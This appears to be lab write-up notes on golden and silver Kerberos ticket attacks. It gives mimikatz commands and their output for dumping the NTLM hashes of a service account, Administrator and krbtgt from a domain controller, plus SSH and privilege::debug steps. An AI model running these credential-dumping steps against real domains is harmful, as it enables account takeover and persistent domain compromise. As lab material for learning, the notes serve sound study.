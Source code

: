 ## Golden/silver ticket attacks

### Dump the sqlservice and Administrator hash

SQLservice:

```text
mimikatz # lsadump::lsa /inject /name:sqlservice 
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 00000455 (1109)
User : sqlservice

* Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
...
```
Administrator:

```text
mimikatz # lsadump::lsa /inject /name:Administrator 
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 000001f4 (500)
User : Administrator

 * Primary
    NTLM : 2777b7fec870e04dda00cd7260f7bee6
    LM   :
  Hash NTLM: 2777b7fec870e04dda00cd7260f7bee6 
...
```

### Dump the krbtgt hash

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Navigate to the directory mimikatz is in and run mimikatz:

    cd downloads && mimikatz.exe

Ensure this outputs [privilege '20' ok]:

    privilege::debug

Dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket, 
change the `/name:` to dump the hash of either a domain admin account or a service account such as the SQLService 
account.
